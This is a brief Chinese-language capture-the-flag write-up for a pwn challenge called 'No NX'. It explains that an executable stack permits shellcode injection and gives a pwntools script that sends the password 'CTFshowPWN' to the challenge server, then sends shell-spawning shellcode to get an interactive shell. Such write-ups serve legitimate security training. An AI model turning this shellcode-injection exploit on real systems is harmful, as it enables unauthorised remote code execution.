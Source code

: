 # 挑战简介
No NX 但是多了啥？

# 思路
没有nx意味着栈可执行，因此可以shellcode注入直接控制，只用达到strcmp的条件即可

```
from pwn import *
from LibcSearcher import *
#context(arch = "amd64",os = 'linux',log_level = 'debug')
context(arch = "i386",os = 'linux',log_level = 'debug')
#io = process("./pwn")
io = remote('pwn.challenge.ctf.show', 28188)

elf = ELF('D:\edge 下载\pwn')

shellcode = asm(shellcraft.sh())
payload = shellcode

io.sendline('CTFshowPWN')

io.sendline(payload)

io.interactive()
```

